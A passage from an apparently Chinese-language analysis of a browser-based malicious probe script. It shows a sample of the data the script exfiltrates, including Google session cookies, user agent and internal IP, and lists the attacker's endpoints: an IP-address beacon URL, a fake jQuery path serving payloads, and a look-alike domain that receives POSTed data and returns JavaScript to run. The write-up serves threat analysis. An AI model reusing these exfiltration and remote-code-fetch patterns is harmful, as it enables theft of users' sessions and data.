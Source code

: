 **探针二**

获取数据部分，用于字符串处理，校对时区，收集swf、express、activex、flash以及插入swf

[![](https://p1.ssl.qhimg.com/t017d4d5e78c7ce15a3.png)](https://p1.ssl.qhimg.com/t017d4d5e78c7ce15a3.png)

传送数据相关的代码

[![](https://p0.ssl.qhimg.com/t015a9c2f9c981e2c2b.png)](https://p0.ssl.qhimg.com/t015a9c2f9c981e2c2b.png)

发送的内容如下

```
'`{`"history":`{`"client_title":"",
"client_url":"https://www.google.co.kr/_/chrome/newtab?espv=2&amp;ie=UTF-8",
"client_cookie":"SID=TQUtor57TAERNu6GqnR4pjxikT_fUFRYJg0WDuQR6DLPYP79ng8b20xLV45BALRr9EP0ig.; 
APISID=czIiWPC84XzsPhi7/AEXqM7jJZBOCVK4NB; 
SAPISID=EukztCzcUbvlcTe3/A0h8Z8oQR86VGPTf_; 
UULE=a+cm9sZToxIHByb2R1Y2VyOjEyIHByb3ZlbmFuY2U6NiB0aW1lc3RhbXA6MTUxMDA1Mzg3NDY1OTAwMCBsYXRsbmd7bGF0aXR1ZGVfZTc6Mzk5ODE5MzY5IGxvbmdpdHVkZV9lNzoxMTY0ODQ5ODQ5fSByYWRpdXM6MzM0ODA=; 
1P_JAR=2017-11-8-2",
"client_hash":"",
"client_referrer":"",
"client_platform_ua":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36",
"client_time":"2017-11-08T03:40:25.641Z",
"client_network_ip_list":["10.17.52.196"],
"timezone":"Asia/Shanghai"`}``}`'
```



**数据传输地址**

****

**探针一**

接受数据 **//45.32.105.45/icon.jpg?v=86462&amp;d=`{`data`}` **

根据参数下发 

**payload //45.32.105.45/ajax/libs/jquery/2.1.3/jquery.min.js?&amp;v=86462&amp;h1=`{`data`}`&amp;h2=`{`data`}`&amp;r=`{`data`}`**

**探针二**

往以下地址 POST 数据,并接受新的 js 并运行**//ad.jqueryclick.com/117efea9-be70-54f2-9336-893c5a0defa1**

<br>

**信息收集列表**

****

浏览器中执行的恶意代码会收集如下这些信息：

****
